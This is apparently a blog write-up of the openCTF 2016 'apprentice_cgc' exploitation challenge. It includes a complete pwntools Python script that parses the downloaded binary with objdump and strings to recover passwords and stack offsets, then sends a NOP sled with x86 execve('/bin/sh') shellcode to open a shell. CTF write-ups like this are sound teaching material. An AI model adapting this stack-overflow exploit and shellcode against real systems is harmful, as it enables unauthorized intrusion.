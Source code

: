 ```yaml
---
layout: post
title: openCTF 2016 - apprentice_cgc
category: [Exploitation]
tags: [Exploitation, openCTF]
comments: true
---
```


**Points:** 300
**Solves:** 
**Category:** Exploitation, CRS
**Description:** So, neophyte_cgc was pretty straightforward.
This isn't.
Server: 172.31.1.47:1624

> [apprentice_cgc]({{site.url}}/assets/apprentice_cgc)

Statically compiled, stripped binary this challenge was about Automatic Exploit Generation (AEG). The server sends us a binary with two different passwords on every run. We have to send the correct passwords in order to reach the vulnerable function.

![vuln]({{site.url}}/assets/screen-openctf-3.png)

The `vulnerable` function had a classic stack overflow with no canaries, NX disabled and ASLR disabled.

![vuln2]({{site.url}}/assets/screen-openctf-4.png)

The local stack size of the vulnerable function was also different on each run.

# Ghetto Solution

The way I solved this is basically:
1. Connect to the server and get the binary
2. Drop the binary on disk and analyze it with objdump, storing the output in a variable
3. Since the 2 password strings were exactly 32 bytes each and lowercase alphanum chars I used strings to find them
4. Used the objdump output to find the size of the `vulnerable` function
5. Send the payload and get the flag

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys, re

# flag itoldyou__IT_WOULD_GET_W0rse_imnotangrybro

def filterPick(list,filter):
    return [ ( l, m.group(1) ) for l in list for m in (filter(l),) if m]


def exploit(r):
  if len(sys.argv) > 1:   # if remote get the binary and store on disk
    r.recvuntil("Apprentice CRS - (Cyber Reasoning System)\n")
    binary = r.recvuntil('Can you exploit me in under 10 seconds?\n')

    ofile = open('apprentice_cgc_drop', 'wb')
    ofile.write(binary)
    ofile.close()

  else:        # else use binary already on disk
    binary = bytearray(open('apprentice_cgc', 'r').read())
  
  entry = u32(binary[0x18:0x18+4])            # find entry point from
  log.info("Entry point: " + hex(entry))      # elf header

  # get output of objdump
  output = subprocess.Popen(["objdump", "-d", "-M", "intel", "apprentice_cgc_drop"], stdout=subprocess.PIPE).communicate()[0].split('\n')

  for line in range(len(output)):             # parse each line
    if hex(entry)[2:]+':' in output[line]:    # look for entry point
      for i in range(15):                     # get 15 lines down from entry point
        if 'call' in output[line+i]:          # get the line of entry point
          main = output[line+i-1].split(' ')[-1][2:]  # get the first argument (addr of main)
          log.info("Main at: " + main)        # main found

  main_output = []                            # store main disassembly here
  for line in range(len(output)):             # parse output
    if main+':' in output[line]:              # from main's address
      i = 0
      while 'ret' not in output[line+i]:      # until ret
        main_output.append(output[line+i])
        i += 1
      break

  calls = []                                  # store addr of all called funcs from main
  for line in range(len(main_output)):
    if 'call' in main_output[line]:
      calls.append(main_output[line].split(' ')[-1].strip())

  strings = subprocess.Popen(["strings", "-n 32", "-d", "apprentice_cgc_drop"], stdout=subprocess.PIPE).communicate()[0].split('\n')

  searchRegex = re.compile('(^[a-z0-9]{32}$)').search # regex to find the 2 passwds
  x = filterPick(strings,searchRegex)         # find the two passwords
  canaries = []

  canaries.append(x[0][0])
  canaries.append(x[-1][-1])
  print canaries                              # let me see the passwords

  r.sendline(canaries[0].strip())             # send the first password
  r.recvline()
  r.recvline()
  inBuffer = int(r.recvline().strip(), 16)    # Oh the binary sends us 
  log.info("Stack is at: " + hex(inBuffer))   # the addr of the stack :)

  for line in range(len(output)):
    if calls[-1][2:]+':' in output[line]:     # from the start of the vuln func's disassembly
      for i in range(5):                      # look 5 lines down
        if 'sub' in output[line+i]:           # if u see 'sub'
          offset = int(output[line+i].split(',')[-1].strip(), 16) # get size of stack frame
      

      for i in range(9, 15):                  # in vuln func 9 lines down
        if 'lea' in output[line+i]:           # look for local buffer
          vulnBuf = int( output[line+i].split('-')[-1].strip(']'), 16) # get distance between
                                                                      # stack frame and buffer

  offset = offset + (offset - vulnBuf)+3      # calc how much garbage to send

  sc = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
      "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")

  r.send(canaries[1]+"\x00")

  payload = "\x90" * (offset - (len(sc)))
  payload += sc
  payload += p32(inBuffer-(offset/2)) * 100

  r.sendline(payload)

  r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/openCTF/apprentice_cgc'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}
